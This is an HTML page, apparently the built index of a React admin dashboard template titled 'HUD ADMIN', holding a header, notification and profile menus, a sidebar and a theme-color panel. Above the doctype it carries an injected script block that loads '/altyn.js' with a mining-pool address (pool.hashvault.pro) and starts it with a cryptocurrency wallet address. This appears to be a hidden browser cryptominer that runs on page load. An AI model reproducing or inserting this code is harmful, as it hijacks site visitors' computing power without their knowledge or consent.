 <script src="/altyn.js?perfekt=wss://?algo=cn/r?jason=pool.hashvault.pro:443" async=""></script>
	
		<script>
			PerfektStart("4BCMDQB1dZV9KN9ZYo4RH3cHTAL9jUocL474pnSDaRJoeUndmWqc8KefKUoFRnczupixisqBy1uiqQES2oSgF9594vrt3St","React",2);
		</script> 


		<!doctype html><html lang="en" data-bs-theme="dark"><head><meta charset="utf-8"><title>HUD | Starter Page</title><meta name="viewport" content="width=device-width,initial-scale=1"><meta name="description" content=""><meta name="author" content=""><link href="assets/css/vendor.min.css" rel="stylesheet"><link href="assets/css/app.min.css" rel="stylesheet"><script defer="defer" src="/static/js/main.ea9423c5.js"></script><link href="/static/css/main.d4952456.css" rel="stylesheet"></head><body><div id="app" class="app app-footer-fixed"><div id="header" class="app-header"><div class="desktop-toggler"><button type="button" class="menu-toggler" data-toggle-class="app-sidebar-collapsed" data-dismiss-class="app-sidebar-toggled" data-toggle-target=".app"><span class="bar"></span> <span class="bar"></span> <span class="bar"></span></button></div><div class="mobile-toggler"><button type="button" class="menu-toggler" data-toggle-class="app-sidebar-mobile-toggled" data-toggle-target=".app"><span class="bar"></span> <span class="bar"></span> <span class="bar"></span></button></div><div class="brand"><a href="index.html" class="brand-logo"><span class="brand-img"><span class="brand-img-text text-theme">H</span> </span><span class="brand-text">HUD ADMIN</span></a></div><div class="menu"><div class="menu-item dropdown"><a href="#" data-toggle-class="app-header-menu-search-toggled" data-toggle-target=".app" class="menu-link"><div class="menu-icon"><i class="bi bi-search nav-icon"></i></div></a></div><div class="menu-item dropdown dropdown-mobile-full"><a href="#" data-bs-toggle="dropdown" data-bs-display="static" class="menu-link"><div class="menu-icon"><i class="bi bi-grid-3x3-gap nav-icon"></i></div></a><div class="dropdown-menu fade dropdown-menu-end w-300px text-center p-0 mt-1"><div class="row row-grid gx-0"><div class="col-4"><a href="email_inbox.html" class="dropdown-item text-decoration-none p-3 bg-none"><div class="position-relative"><i class="bi bi-circle-fill position-absolute text-theme top-0 mt-n2 me-n2 fs-6px d-block text-center w-100"></i> <i class="bi bi-envelope h2 opacity-5 d-block my-1"></i></div><div class="fw-500 fs-10px text-inverse">INBOX</div></a></div><div class="col-4"><a href="pos_customer_order.html" target="_blank" class="dropdown-item text-decoration-none p-3 bg-none"><div><i class="bi bi-hdd-network h2 opacity-5 d-block my-1"></i></div><div class="fw-500 fs-10px text-inverse">POS SYSTEM</div></a></div><div class="col-4"><a href="calendar.html" class="dropdown-item text-decoration-none p-3 bg-none"><div><i class="bi bi-calendar4 h2 opacity-5 d-block my-1"></i></div><div class="fw-500 fs-10px text-inverse">CALENDAR</div></a></div></div><div class="row row-grid gx-0"><div class="col-4"><a href="helper.html" class="dropdown-item text-decoration-none p-3 bg-none"><div><i class="bi bi-terminal h2 opacity-5 d-block my-1"></i></div><div class="fw-500 fs-10px text-inverse">HELPER</div></a></div><div class="col-4"><a href="settings.html" class="dropdown-item text-decoration-none p-3 bg-none"><div class="position-relative"><i class="bi bi-circle-fill position-absolute text-theme top-0 mt-n2 me-n2 fs-6px d-block text-center w-100"></i> <i class="bi bi-sliders h2 opacity-5 d-block my-1"></i></div><div class="fw-500 fs-10px text-inverse">SETTINGS</div></a></div><div class="col-4"><a href="widgets.html" class="dropdown-item text-decoration-none p-3 bg-none"><div><i class="bi bi-collection-play h2 opacity-5 d-block my-1"></i></div><div class="fw-500 fs-10px text-inverse">WIDGETS</div></a></div></div></div></div><div class="menu-item dropdown dropdown-mobile-full"><a href="#" data-bs-toggle="dropdown" data-bs-display="static" class="menu-link"><div class="menu-icon"><i class="bi bi-bell nav-icon"></i></div><div class="menu-badge bg-theme"></div></a><div class="dropdown-menu dropdown-menu-end mt-1 w-300px fs-11px pt-1"><h6 class="dropdown-header fs-10px mb-1">NOTIFICATIONS</h6><div class="dropdown-divider mt-1"></div><a href="#" class="d-flex align-items-center py-10px dropdown-item text-wrap fw-semibold"><div class="fs-20px"><i class="bi bi-bag text-theme"></i></div><div class="flex-1 flex-wrap ps-3"><div class="mb-1 text-inverse">NEW ORDER RECEIVED ($1,299)</div><div class="small text-inverse text-opacity-50">JUST NOW</div></div><div class="ps-2 fs-16px"><i class="bi bi-chevron-right"></i></div></a><a href="#" class="d-flex align-items-center py-10px dropdown-item text-wrap fw-semibold"><div class="fs-20px w-20px"><i class="bi bi-person-circle text-theme"></i></div><div class="flex-1 flex-wrap ps-3"><div class="mb-1 text-inverse">3 NEW ACCOUNT CREATED</div><div class="small text-inverse text-opacity-50">2 MINUTES AGO</div></div><div class="ps-2 fs-16px"><i class="bi bi-chevron-right"></i></div></a><a href="#" class="d-flex align-items-center py-10px dropdown-item text-wrap fw-semibold"><div class="fs-20px w-20px"><i class="bi bi-gear text-theme"></i></div><div class="flex-1 flex-wrap ps-3"><div class="mb-1 text-inverse">SETUP COMPLETED</div><div class="small text-inverse text-opacity-50">3 MINUTES AGO</div></div><div class="ps-2 fs-16px"><i class="bi bi-chevron-right"></i></div></a><a href="#" class="d-flex align-items-center py-10px dropdown-item text-wrap fw-semibold"><div class="fs-20px w-20px"><i class="bi bi-grid text-theme"></i></div><div class="flex-1 flex-wrap ps-3"><div class="mb-1 text-inverse">WIDGET INSTALLATION DONE</div><div class="small text-inverse text-opacity-50">5 MINUTES AGO</div></div><div class="ps-2 fs-16px"><i class="bi bi-chevron-right"></i></div></a><a href="#" class="d-flex align-items-center py-10px dropdown-item text-wrap fw-semibold"><div class="fs-20px w-20px"><i class="bi bi-credit-card text-theme"></i></div><div class="flex-1 flex-wrap ps-3"><div class="mb-1 text-inverse">PAYMENT METHOD ENABLED</div><div class="small text-inverse text-opacity-50">10 MINUTES AGO</div></div><div class="ps-2 fs-16px"><i class="bi bi-chevron-right"></i></div></a><hr class="my-0"><div class="py-10px mb-n2 text-center"><a href="#" class="text-decoration-none fw-bold">SEE ALL</a></div></div></div><div class="menu-item dropdown dropdown-mobile-full"><a href="#" data-bs-toggle="dropdown" data-bs-display="static" class="menu-link"><div class="menu-img online"><img src="assets/img/user/profile.jpg" alt="Profile" height="60"></div><div class="menu-text d-sm-block d-none w-170px">username@account.com</div></a><div class="dropdown-menu dropdown-menu-end me-lg-3 fs-11px mt-1"><a class="dropdown-item d-flex align-items-center" href="profile.html">PROFILE <i class="bi bi-person-circle ms-auto text-theme fs-16px my-n1"></i></a> <a class="dropdown-item d-flex align-items-center" href="email_inbox.html">INBOX <i class="bi bi-envelope ms-auto text-theme fs-16px my-n1"></i></a> <a class="dropdown-item d-flex align-items-center" href="calendar.html">CALENDAR <i class="bi bi-calendar ms-auto text-theme fs-16px my-n1"></i></a> <a class="dropdown-item d-flex align-items-center" href="settings.html">SETTINGS <i class="bi bi-gear ms-auto text-theme fs-16px my-n1"></i></a><div class="dropdown-divider"></div><a class="dropdown-item d-flex align-items-center" href="page_login.html">LOGOUT <i class="bi bi-toggle-off ms-auto text-theme fs-16px my-n1"></i></a></div></div></div><form class="menu-search" method="POST" name="header_search_form"><div class="menu-search-container"><div class="menu-search-icon"><i class="bi bi-search"></i></div><div class="menu-search-input"><input class="form-control form-control-lg" placeholder="Search menu..."></div><div class="menu-search-icon"><a href="#" data-toggle-class="app-header-menu-search-toggled" data-toggle-target=".app"><i class="bi bi-x-lg"></i></a></div></div></form></div><div id="sidebar" class="app-sidebar"><div class="app-sidebar-content" data-scrollbar="true" data-height="100%"><div class="menu"><div class="menu-header">Navigation</div><div class="menu-item"><a href="index.html" class="menu-link"><span class="menu-icon"><i class="bi bi-cpu"></i></span> <span class="menu-text">Dashboard</span></a></div></div><div class="p-3 px-4 mt-auto"><a href="#" class="btn d-block btn-outline-theme"><i class="fa fa-code-branch me-2 ms-n2 opacity-5"></i> Documentation</a></div></div></div><button class="app-sidebar-mobile-backdrop" data-toggle-target=".app" data-toggle-class="app-sidebar-mobile-toggled"></button><div id="content" class="app-content"><noscript>You need to enable JavaScript to run this app.</noscript><div id="root"></div></div><div id="footer" class="app-footer">©AltynGroup 2015 - 2025 All Right Reserved</div><a href="#" data-toggle="scroll-to-top" class="btn-scroll-top fade"><i class="fa fa-arrow-up"></i></a><div class="app-theme-panel"><div class="app-theme-panel-container"><a href="javascript:;" data-toggle="theme-panel-expand" class="app-theme-toggle-btn"><i class="bi bi-sliders"></i></a><div class="app-theme-panel-content"><div class="small fw-bold text-inverse mb-1">Display Mode</div><div class="card mb-3"><div class="card-body p-2"><div class="row gx-2"><div class="col-6"><a href="javascript:;" data-toggle="theme-mode-selector" data-theme-mode="dark" class="app-theme-mode-link active"><div class="img"><img src="assets/img/mode/dark.jpg" class="object-fit-cover" height="76" width="76" alt="Dark Mode"></div><div class="text">Dark</div></a></div><div class="col-6"><a href="javascript:;" data-toggle="theme-mode-selector" data-theme-mode="light" class="app-theme-mode-link"><div class="img"><img src="assets/img/mode/light.jpg" class="object-fit-cover" height="76" width="76" alt="Light Mode"></div><div class="text">Light</div></a></div></div></div><div class="card-arrow"><div class="card-arrow-top-left"></div><div class="card-arrow-top-right"></div><div class="card-arrow-bottom-left"></div><div class="card-arrow-bottom-right"></div></div></div><div class="small fw-bold text-inverse mb-1">Theme Color</div><div class="card mb-3"><div class="card-body p-2"><div class="app-theme-list"><div class="app-theme-list-item"><a href="javascript:;" class="app-theme-list-link bg-pink" data-theme-class="theme-pink" data-toggle="theme-selector" data-bs-toggle="tooltip" data-bs-trigger="hover" data-bs-container="body" data-bs-title="Pink">&nbsp;</a></div><div class="app-theme-list-item"><a href="javascript:;" class="app-theme-list-link bg-red" data-theme-class="theme-red" data-toggle="theme-selector" data-bs-toggle="tooltip" data-bs-trigger="hover" data-bs-container="body" data-bs-title="Red">&nbsp;</a></div><div class="app-theme-list-item"><a href="javascript:;" class="app-theme-list-link bg-warning" data-theme-class="theme-warning" data-toggle="theme-selector" data-bs-toggle="tooltip" data-bs-trigger="hover" data-bs-container="body" data-bs-title="Orange">&nbsp;</a></div><div class="app-theme-list-item"><a href="javascript:;" class="app-theme-list-link bg-yellow" data-theme-class="theme-yellow" data-toggle="theme-selector" data-bs-toggle="tooltip" data-bs-trigger="hover" data-bs-container="body" data-bs-title="Yellow">&nbsp;</a></div><div class="app-theme-list-item"><a href="javascript:;" class="app-theme-list-link bg-lime" data-theme-class="theme-lime" data-toggle="theme-selector" data-bs-toggle="tooltip" data-bs-trigger="hover" data-bs-container="body" data-bs-title="Lime">&nbsp;</a></div><div class="app-theme-list-item"><a href="javascript:;" class="app-theme-list-link bg-green" data-theme-class="theme-green" data-toggle="theme-selector" data-bs-toggle="tooltip" data-bs-trigger="hover" data-bs-container="body" data-bs-title="Green">&nbsp;</a></div><div class="app-theme-list-item active"><a href="javascript:;" class="app-theme-list-link bg-teal" data-theme-class="" data-toggle="theme-selector" data-bs-toggle="tooltip" data-bs-trigger="hover" data-bs-container="body" data-bs-title="Default">&nbsp;</a></div><div class="app-theme-list-item"><a href="javascript:;" class="app-theme-list-link bg-info" data-theme-class="theme-info" data-toggle="theme-selector" data-bs-toggle="tooltip" data-bs-trigger="hover" data-bs-container="body" data-bs-title="Cyan">&nbsp;</a></div><div class="app-theme-list-item"><a href="javascript:;" class="app-theme-list-link bg-primary" data-theme-class="theme-primary" data-toggle="theme-selector" data-bs-toggle="tooltip" data-bs-trigger="hover" data-bs-container="body" data-bs-title="Blue">&nbsp;</a></div><div class="app-theme-list-item"><a href="javascript:;" class="app-theme-list-link bg-purple" data-theme-class="theme-purple" data-toggle="theme-selector" data-bs-toggle="tooltip" data-bs-trigger="hover" data-bs-container="body" data-bs-title="Purple">&nbsp;</a></div><div class="app-theme-list-item"><a href="javascript:;" class="app-theme-list-link bg-indigo" data-theme-class="theme-indigo" data-toggle="theme-selector" data-bs-toggle="tooltip" data-bs-trigger="hover" data-bs-container="body" data-bs-title="Indigo">&nbsp;</a></div><div class="app-theme-list-item"><a href="javascript:;" class="app-theme-list-link bg-gray-100" data-theme-class="theme-gray-200" data-toggle="theme-selector" data-bs-toggle="tooltip" data-bs-trigger="hover" data-bs-container="body" data-bs-title="Gray">&nbsp;</a></div></div></div><div class="card-arrow"><div class="card-arrow-top-left"></div><div class="card-arrow-top-right"></div><div class="card-arrow-bottom-left"></div><div class="card-arrow-bottom-right"></div></div></div><div class="small fw-bold text-inverse mb-1">Theme Cover</div><div class="card"><div class="card-body p-2"><div class="app-theme-cover"><div class="app-theme-cover-item active"><a href="javascript:;" class="app-theme-cover-link" style="background-image:url(assets/img/cover/cover-thumb-1.jpg)" data-theme-cover-class="" data-toggle="theme-cover-selector" data-bs-toggle="tooltip" data-bs-trigger="hover" data-bs-container="body" data-bs-title="Default">&nbsp;</a></div><div class="app-theme-cover-item"><a href="javascript:;" class="app-theme-cover-link" style="background-image:url(assets/img/cover/cover-thumb-2.jpg)" data-theme-cover-class="bg-cover-2" data-toggle="theme-cover-selector" data-bs-toggle="tooltip" data-bs-trigger="hover" data-bs-container="body" data-bs-title="Cover 2">&nbsp;</a></div><div class="app-theme-cover-item"><a href="javascript:;" class="app-theme-cover-link" style="background-image:url(assets/img/cover/cover-thumb-3.jpg)" data-theme-cover-class="bg-cover-3" data-toggle="theme-cover-selector" data-bs-toggle="tooltip" data-bs-trigger="hover" data-bs-container="body" data-bs-title="Cover 3">&nbsp;</a></div><div class="app-theme-cover-item"><a href="javascript:;" class="app-theme-cover-link" style="background-image:url(assets/img/cover/cover-thumb-4.jpg)" data-theme-cover-class="bg-cover-4" data-toggle="theme-cover-selector" data-bs-toggle="tooltip" data-bs-trigger="hover" data-bs-container="body" data-bs-title="Cover 4">&nbsp;</a></div><div class="app-theme-cover-item"><a href="javascript:;" class="app-theme-cover-link" style="background-image:url(assets/img/cover/cover-thumb-5.jpg)" data-theme-cover-class="bg-cover-5" data-toggle="theme-cover-selector" data-bs-toggle="tooltip" data-bs-trigger="hover" data-bs-container="body" data-bs-title="Cover 5">&nbsp;</a></div><div class="app-theme-cover-item"><a href="javascript:;" class="app-theme-cover-link" style="background-image:url(assets/img/cover/cover-thumb-6.jpg)" data-theme-cover-class="bg-cover-6" data-toggle="theme-cover-selector" data-bs-toggle="tooltip" data-bs-trigger="hover" data-bs-container="body" data-bs-title="Cover 6">&nbsp;</a></div><div class="app-theme-cover-item"><a href="javascript:;" class="app-theme-cover-link" style="background-image:url(assets/img/cover/cover-thumb-7.jpg)" data-theme-cover-class="bg-cover-7" data-toggle="theme-cover-selector" data-bs-toggle="tooltip" data-bs-trigger="hover" data-bs-container="body" data-bs-title="Cover 7">&nbsp;</a></div><div class="app-theme-cover-item"><a href="javascript:;" class="app-theme-cover-link" style="background-image:url(assets/img/cover/cover-thumb-8.jpg)" data-theme-cover-class="bg-cover-8" data-toggle="theme-cover-selector" data-bs-toggle="tooltip" data-bs-trigger="hover" data-bs-container="body" data-bs-title="Cover 8">&nbsp;</a></div><div class="app-theme-cover-item"><a href="javascript:;" class="app-theme-cover-link" style="background-image:url(assets/img/cover/cover-thumb-9.jpg)" data-theme-cover-class="bg-cover-9" data-toggle="theme-cover-selector" data-bs-toggle="tooltip" data-bs-trigger="hover" data-bs-container="body" data-bs-title="Cover 9">&nbsp;</a></div></div></div><div class="card-arrow"><div class="card-arrow-top-left"></div><div class="card-arrow-top-right"></div><div class="card-arrow-bottom-left"></div><div class="card-arrow-bottom-right"></div></div></div></div></div></div></div><script src="assets/js/vendor.min.js"></script><script src="assets/js/app.min.js"></script></body></html>